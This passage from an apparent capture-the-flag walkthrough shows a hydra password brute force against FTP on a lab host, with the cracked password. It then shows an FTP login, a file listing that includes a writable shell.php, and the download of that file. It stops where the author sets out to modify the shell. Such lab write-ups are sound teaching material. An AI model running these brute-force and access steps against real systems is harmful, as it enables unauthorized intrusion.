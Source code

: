 ```
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.62 seconds
```
- As we can see there are three open ports:
	- Port 21: ftp
	- Port 80: http
- We know that the user `jenny` changed the password.
- Let's brute force it using `hydra`.
```
$ hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://10.10.108.36
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-07 17:02:35
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.108.36:21/
[21][ftp] host: 10.10.108.36   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-07 17:03:04 
```
- Let's login through FTP using `jenny` as the username and `987654321` as the password.
```
$ ftp jenny@10.10.108.36
Connected to 10.10.108.36.
220 Hello FTP World!
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
- Let's look around to find something important,
```
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5493 Feb 01  2021 shell.php
226 Directory send OK.
```
- We can download these files using the `get` command.
```
ftp> get shell.php
local: shell.php remote: shell.php
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for shell.php (5493 bytes).
100% |***********************************************************************************************************************************************************************************************|  5493       64.89 KiB/s    00:00 ETA
226 Transfer complete.
5493 bytes received in 00:00 (24.22 KiB/s)
ftp> get index.html
local: index.html remote: index.html
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for index.html (10918 bytes).
100% |***********************************************************************************************************************************************************************************************| 10918        3.20 MiB/s    00:00 ETA
226 Transfer complete.
10918 bytes received in 00:00 (81.19 KiB/s)
```
- We have to modify the shell a bit.